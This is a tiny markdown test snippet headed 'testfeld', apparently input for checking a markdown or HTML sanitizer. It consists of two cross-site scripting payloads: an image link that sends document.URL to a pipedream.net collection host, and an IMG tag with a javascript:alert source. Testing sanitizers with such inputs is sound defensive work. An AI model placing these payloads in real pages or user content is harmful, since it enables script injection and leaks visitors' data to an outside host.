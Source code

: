 # testfeld
![alt text]("'https://en64psobonxh8.x.pipedream.net?id='+document.URL" "Logo Title Text 1")
<IMG SRC="javascript:alert('XSS');">


